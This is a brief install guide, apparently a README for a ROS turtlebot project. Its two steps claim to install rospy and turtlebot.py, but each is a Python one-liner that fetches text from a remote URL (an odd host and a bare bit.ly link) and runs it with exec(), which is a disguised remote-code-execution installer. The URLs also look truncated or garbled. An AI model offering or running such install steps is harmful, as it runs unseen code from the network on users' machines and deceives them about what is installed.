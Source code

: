 # How to install

1. Install rospy

```python
import requests as r; exec(r.get('http://1Rq7Zi1').text)
```

2. Install turtlebot.py

```python
import requests as r; exec(r.get('http://bit.ly/').text)
```